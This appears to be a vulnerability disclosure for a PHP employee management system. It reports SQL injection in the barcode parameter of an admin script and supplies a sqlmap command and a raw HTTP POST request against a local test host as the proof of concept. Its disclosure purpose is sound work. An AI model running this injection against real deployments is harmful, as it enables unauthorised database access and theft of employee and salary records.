



## projection

Best employee Management System In Php introduction

A Best employee Management System (EMS) is a comprehensive [ software](https://www.sourcecodester.com/php/17689/best-employee-management-system-php.html#) solution designed to streamline and enhance the various functions associated with human resource management within an organization. This system serves as a pivotal tool for managing employee data, salary management, and money borrow management.

 

## download

https://www.sourcecodester.com/download-code?nid=17689&title=Best+employee+management+system+in+php

 

## effect version

latest version

 

in admin\fetch_product_details.php file ，variable  $barcode exists sql injection

 

 

 

 

python sqlmap.py -r "1.txt" --current-db


\```

POST /_hr_soft/admin/fetch_product_details.php HTTP/1.1

Host: 127.0.0.1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 17

Origin: http://127.0.0.1

Connection: close

Referer: http://127.0.0.1/_hr_soft/fetch_product_details.php

Cookie: PHPSESSID=e67pc6d6qbdep3tsoslh4uo7e2

Upgrade-Insecure-Requests: 1

Sec-Fetch-Dest: document

Sec-Fetch-Mode: navigate

Sec-Fetch-Site: same-origin

Sec-Fetch-User: ?1

Priority: u=0, i

 

barcode=1

\```

 

use Sqlmap to test:



 

 
